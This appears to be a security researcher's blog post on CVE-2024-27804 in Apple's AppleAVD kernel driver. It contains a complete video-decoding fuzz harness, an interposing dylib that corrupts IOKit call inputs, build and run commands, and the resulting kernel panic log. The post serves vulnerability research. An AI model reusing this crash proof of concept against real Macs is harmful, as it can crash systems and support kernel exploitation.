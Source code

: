 ```yaml
---
layout: post
title: "AppleAVD"
date: 2024-05-14 1:1:1 +0100
categories: fuzzing
---
```


[https://github.com/R00tkitSMM/CVE-2024-27804](https://github.com/R00tkitSMM/CVE-2024-27804)

tested on M1

{% highlight shell %}
#include <dlfcn.h>
#include <stdio.h>
#import <AVFoundation/AVFoundation.h>

typedef void (*t_VTApplyRestrictions)(int arg);
t_VTApplyRestrictions VTApplyRestrictions;

int __attribute__((noinline)) fuzz(const char *filename) {
  @autoreleasepool {
    NSError *error = nil;
    NSURL *fileURL = [NSURL
        fileURLWithPath:[NSString stringWithCString:filename
                                           encoding:NSASCIIStringEncoding]];
    AVAsset *asset = [AVAsset assetWithURL:fileURL];
    if (asset == nil)
      return 0;

    AVAssetReader *reader = [[AVAssetReader alloc] initWithAsset:asset
                                                           error:&error];
    if (reader == nil)
      return 0;

    NSArray *tracks = [asset tracksWithMediaType:AVMediaTypeVideo];
    if (tracks == nil || ([tracks count] == 0))
      return 0;

    AVAssetTrack *track = tracks[0];

    NSDictionary *outputSettings = [NSDictionary
        dictionaryWithObject:[NSNumber numberWithInt:kCMPixelFormat_32BGRA]
                      forKey:(id)kCVPixelBufferPixelFormatTypeKey];
    AVAssetReaderTrackOutput *output = [AVAssetReaderTrackOutput
        assetReaderTrackOutputWithTrack:track
                         outputSettings:outputSettings];

    [reader addOutput:output];
    [reader startReading];

    for (int frame = 0; frame < 2; frame++) {
      // printf("Frame %d\n", frame);

      CMSampleBufferRef sampleBuffer = [output copyNextSampleBuffer];
      if (sampleBuffer == nil)
        break;

      CMSampleBufferInvalidate(sampleBuffer);
      CFRelease(sampleBuffer);
      sampleBuffer = NULL;
    }
  }

  return 1;
}

int main(int argc, const char *argv[]) {
  if (argc < 2) {
    printf("Usage: %s <filename>\n", argv[0]);
    return 0;
  }

  // make decoding run in the current process instead of VTDecoderXPCService
  void *toolbox = dlopen("/System/Library/Frameworks/VideoToolbox.framework/"
                         "Versions/A/VideoToolbox",
                         RTLD_NOW);
  if (!toolbox) {
    printf("Error loading library\n");
    return 0;
  }
  VTApplyRestrictions =
      (t_VTApplyRestrictions)dlsym(toolbox, "VTApplyRestrictions");
  if (!VTApplyRestrictions) {
    printf("Error finding VTApplyRestrictions symbol\n");
    return 0;
  }
  VTApplyRestrictions(1);

  fuzz(argv[1]);

  return 0;
}
{% endhighlight %}

{% highlight cpp %}
#include <IOKit/IOKitLib.h>
#include <dlfcn.h>
#include <execinfo.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/sysctl.h>
#include <time.h>

void flip_bit(void *buf, size_t len) {

  if (!len)
    return;
  size_t offset = rand() % len;

  ((int *)buf)[offset] = 0x41414141;
}

kern_return_t fake_IOConnectCallMethod(mach_port_t connection,
                                       uint32_t selector, uint64_t *input,
                                       uint32_t inputCnt, void *inputStruct,
                                       size_t inputStructCnt, uint64_t *output,
                                       uint32_t *outputCnt, void *outputStruct,
                                       size_t *outputStructCntP) {

  flip_bit(inputStruct, inputStructCnt);

  return IOConnectCallMethod(connection, selector, input, inputCnt, inputStruct,
                             inputStructCnt, output, outputCnt, outputStruct,
                             outputStructCntP);
}

typedef struct interposer {
  void *replacement;
  void *original;
} interpose_t;

__attribute__((used)) static const interpose_t interposers[]
    __attribute__((section("__DATA,__interpose"))) = {
        {.replacement = (void *)fake_IOConnectCallMethod,
         .original = (void *)IOConnectCallMethod}};

{% endhighlight %}

{% highlight shell %}
clang -arch arm64 -o vtdecode vtdecode.m -framework VideoToolbox -framework Foundation -framework CoreMedia  -framework CoreVideo -framework  AVFoundation
clang -dynamiclib -o flip.dylib flip.c -framework IOKit
{% endhighlight %}

{% highlight shell %}
DYLD_INSERT_LIBRARIES=./flip.dylib ./vtdecode input_poc/orientation-normal-fragmented.mp4.mov
{% endhighlight %}

{% highlight shell %}

panic(cpu 4 caller 0xfffffe0026851cdc): Unaligned kernel data abort. at pc 0xfffffe0026aed514, lr 0xfffffe0026aed5d8 (saved state: 0xfffffe3a396e3200)
	  x0:  0x000000000000000e x1:  0xfffffe1002bdc01b  x2:  0x0000000000000000  x3:  0xfffffe3a396e3444
	  x4:  0xfffffe3a396e344c x5:  0x000000000002d1f4  x6:  0x0000000000000000  x7:  0xffffffffffffffff
	  x8:  0x0000000000000004 x9:  0xfffffe1002bdc01f  x10: 0x0000000000000000  x11: 0x0000000000000002
	  x12: 0x0000000000000004 x13: 0x0000000000000000  x14: 0x0000000000000000  x15: 0x0000000000000000
	  x16: 0xfffffe0026aeda90 x17: 0xfffffe0026aed9fc  x18: 0x0000000000000000  x19: 0xfffffe1b40e90000
	  x20: 0x0000000000000000 x21: 0x0000000000000000  x22: 0xfffffe1002bdc000  x23: 0x0000000000000001
	  x24: 0x0000000000000000 x25: 0xfffffe1002bdc024  x26: 0x000000000000001b  x27: 0x00000000000008b0
	  x28: 0x000000000000001b fp:  0xfffffe3a396e3610  lr:  0xfffffe0026aed5d8  sp:  0xfffffe3a396e3550
	  pc:  0xfffffe0026aed514 cpsr: 0x60401208         esr: 0x96000021          far: 0xfffffe1002bdc01b

Debugger message: panic
Memory ID: 0x6
OS release type: User
OS version: 23C71
Kernel version: Darwin Kernel Version 23.2.0: Wed Nov 15 21:53:34 PST 2023; root:xnu-10002.61.3~2/RELEASE_ARM64_T8103
Fileset Kernelcache UUID: 6DAC2CF8E68E8F436296A697E29AAD44
Kernel UUID: E245D804-1FA3-31E2-90BC-B4DF75B2129E
Boot session UUID: 52885412-0864-4DFF-8E9E-36C3C7BC8B88
iBoot version: iBoot-10151.61.4
secure boot?: YES
roots installed: 0
Paniclog version: 14
KernelCache slide: 0x000000001dac4000
KernelCache base:  0xfffffe0024ac8000
Kernel slide:      0x000000001dacc000
Kernel text base:  0xfffffe0024ad0000
Kernel text exec slide: 0x000000001efd8000
Kernel text exec base:  0xfffffe0025fdc000
mach_absolute_time: 0x1c4f4c5a5
Epoch Time:        sec       usec
  Boot    : 0x65a56518 0x000b7c0f
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x65a5664f 0x00072ae4

Zone info:
  Zone map: 0xfffffe100f2dc000 - 0xfffffe300f2dc000
  . VM    : 0xfffffe100f2dc000 - 0xfffffe14dbfa8000
  . RO    : 0xfffffe14dbfa8000 - 0xfffffe1675940000
  . GEN0  : 0xfffffe1675940000 - 0xfffffe1b4260c000
  . GEN1  : 0xfffffe1b4260c000 - 0xfffffe200f2d8000
  . GEN2  : 0xfffffe200f2d8000 - 0xfffffe24dbfa4000
  . GEN3  : 0xfffffe24dbfa4000 - 0xfffffe29a8c70000
  . DATA  : 0xfffffe29a8c70000 - 0xfffffe300f2dc000
  Metadata: 0xfffffe3a1c3ac000 - 0xfffffe3a243ac000
  Bitmaps : 0xfffffe3a243ac000 - 0xfffffe3a27194000
  Extra   : 0 - 0

CORE 0 recently retired instr at 0xfffffe00261886e4
CORE 1 recently retired instr at 0xfffffe00261886e4
CORE 2 recently retired instr at 0xfffffe00261886e4
CORE 3 recently retired instr at 0xfffffe00261886e4
CORE 4 recently retired instr at 0xfffffe0026186ee8
CORE 5 recently retired instr at 0xfffffe00261886e4
CORE 6 recently retired instr at 0xfffffe00261886e4
CORE 7 recently retired instr at 0xfffffe00261886e4
TPIDRx_ELy = {1: 0xfffffe1b448bd030  0: 0x0000000000001004  0ro: 0x000000010061c320 }
CORE 0 PVH locks held: None
CORE 1 PVH locks held: None
CORE 2 PVH locks held: None
CORE 3 PVH locks held: None
CORE 4 PVH locks held: None
CORE 5 PVH locks held: None
CORE 6 PVH locks held: None
CORE 7 PVH locks held: None
CORE 0: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a39a13ef0
CORE 1: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a392b7ef0
CORE 2: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a37df7ef0
CORE 3: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a37c8fef0
CORE 4 is the one that panicked. Check the full backtrace for details.
CORE 5: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a39033ef0
CORE 6: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a39893ef0
CORE 7: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a396a7ef0
Compressor Info: 3% of compressed pages limit (OK) and 2% of segments limit (OK) with 0 swapfiles and OK swap space
Panicked task 0xfffffe1b46695e18: 14298 pages, 13 threads: pid 2352: vtdecode
Panicked thread: 0xfffffe1b448bd030, backtrace: 0xfffffe3a396e2930, tid: 184820
		  lr: 0xfffffe0026035568  fp: 0xfffffe3a396e29c0
		  lr: 0xfffffe002617fa24  fp: 0xfffffe3a396e2a30
		  lr: 0xfffffe002617de84  fp: 0xfffffe3a396e2b20
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e2b30
		  lr: 0xfffffe0026034e48  fp: 0xfffffe3a396e2ee0
		  lr: 0xfffffe002684726c  fp: 0xfffffe3a396e2f00
		  lr: 0xfffffe0026851cdc  fp: 0xfffffe3a396e3080
		  lr: 0xfffffe002617f890  fp: 0xfffffe3a396e30f0
		  lr: 0xfffffe002617e138  fp: 0xfffffe3a396e31e0
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e31f0
		  lr: 0xfffffe0026aed5d8  fp: 0xfffffe3a396e3610
		  lr: 0xfffffe0026ad6fe4  fp: 0xfffffe3a396e3720
		  lr: 0xfffffe0026ad66b4  fp: 0xfffffe3a396e3790
		  lr: 0xfffffe0026ad4e48  fp: 0xfffffe3a396e37d0
		  lr: 0xfffffe00267a0168  fp: 0xfffffe3a396e3810
		  lr: 0xfffffe00267a0484  fp: 0xfffffe3a396e39a0
		  lr: 0xfffffe002614b294  fp: 0xfffffe3a396e3ac0
		  lr: 0xfffffe002603bce8  fp: 0xfffffe3a396e3b60
		  lr: 0xfffffe002600edd4  fp: 0xfffffe3a396e3bc0
		  lr: 0xfffffe00260273f8  fp: 0xfffffe3a396e3c60
		  lr: 0xfffffe0026027864  fp: 0xfffffe3a396e3d50
		  lr: 0xfffffe0026173698  fp: 0xfffffe3a396e3e20
		  lr: 0xfffffe002617e18c  fp: 0xfffffe3a396e3f10
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e3f20
      Kernel Extensions in backtrace:
         com.apple.driver.AppleAVD(737.1)[63D957B3-2E48-36EA-880C-6F0BE3DE16A6]@0xfffffe0026a37e00->0xfffffe0026b04b43
            dependency: com.apple.driver.AppleARMPlatform(1.0.2)[9FC0A536-5BC6-33D5-911A-5A46BDDBBCEF]@0xfffffe00269dfe20->0xfffffe0026a3295b
            dependency: com.apple.driver.FairPlayIOKit(71.3.0)[AD212727-D14F-3DA2-8974-6CEA43B45BC1]@0xfffffe0027e23b50->0xfffffe0027f19aef
            dependency: com.apple.iokit.CoreAnalyticsFamily(1)[0896C7D3-89F2-3D56-A301-5CB0FE0BBEAC]@0xfffffe0027cb1f60->0xfffffe0027cb9d4b
            dependency: com.apple.iokit.IOSurface(352.0.3)[0351AFC2-D85C-3BB5-B9C6-C8C0F6C7A01D]@0xfffffe00288a7dc0->0xfffffe00288d85ab
{% endhighlight %}

